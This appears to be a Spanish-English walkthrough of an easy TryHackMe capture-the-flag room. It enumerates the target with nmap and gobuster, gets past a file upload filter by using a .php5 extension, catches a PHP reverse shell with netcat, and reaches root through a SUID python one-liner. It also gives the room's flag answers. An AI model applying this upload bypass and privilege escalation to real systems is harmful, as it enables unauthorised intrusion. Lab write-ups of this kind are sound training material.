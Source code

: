 #Level-easy 
# First, let's get information about the target.
### Escaneo de puertos:
```shell
┌──(kali㉿kali)-[~]
└─$ nmap -sV 10.10.176.143
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-18 16:55 EDT
Nmap scan report for 10.10.176.143
Host is up (0.22s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Answer the questions below
  
>Scan the machine, how many ports are open?
 **2**

>What version of Apache is running?
 **2.4.29**

>What service is running on port 22?
 **ssh**

>Find directories on the web server using the GoBuster tool.  
 no answer needed


### Escaneo de directorios en el servidor web
```shell
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirb/big.txt -u 10.10.176.143 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.176.143
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.176.143/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.10.176.143/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.176.143/panel/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.176.143/uploads/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================

```


>What is the hidden directory?
 **/panel/**


# Find a form to upload and get a reverse shell, and find the flag.

Para esto, usaré el infame php-reverse-shell.php de pentestmonkey. Puedes conseguirlo aquí:

[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

(solo hay que cambiar algunos parametros)
![[0_JYDqpybcaSPzCRiE.png]]


pero al subir el archivo nos dice que no se aceptan php

![[Pasted image 20231018152054.png]]

investigando un poco un archivo php puede tener multiples extenciones como:
.**php3, .php4, .php5, .php7, .pthml, .pht.**

intentamos con esas y **php5** funciono 

![[Pasted image 20231018160125.png]]

verificamos que se haya subido bien 
![[Pasted image 20231018160811.png]]

iniciamos un listener en el puerto que pusimos en el exploit 4444
El comando nc es un comando de sistemas Unix que se usa para llevar a cabo diversas tareas de red.

- **-l**: Pone a Netcat en modo de escucha, esperando conexiones entrantes.
- **-v**: Activa el modo verbose, mostrando información adicional sobre la conexión.
- **-n**: Evita que Netcat haga la resolución de nombres de dominio, usando sólo direcciones IP numéricas.
- **-p**: Especifica el puerto local al que se conecta Netcat.
- 
![[Pasted image 20231018160849.png]]

para ejecutar en exploit hacemos  clic en el ex.php5 en el directorio /**upload/** y cambie a la ventana de terminal netcat.

ESTAMOS DENTRO!!!
![[Pasted image 20231018162819.png]]

con ayuda del comando find buscamos la bandera que se nos dijo estaba en el archivo user.txt
![[Pasted image 20231018163142.png]]

  
>user.txt
**THM{y0u_g0t_a_sh3ll}**


# Now that we have a shell, let's escalate our privileges to root.

  
>Search for files with SUID permission, which file is weird? 
 **/usr/bin/python**


Usamos go awayBins para verificar la lista de archivos con un conjunto de bits SUID y determinar cuáles se pueden usar para escalar privilegios:
https://gtfobins.github.io/

![[Pasted image 20231018164720.png]]

  
> Find a form to escalate your privileges.

```python
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root

```


buscamos el archivo root.txt
```shell
find / -type f -name root.txt 
/root/root.txt
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

>root.txt
 **THM{pr1v1l3g3_3sc4l4t10n}**
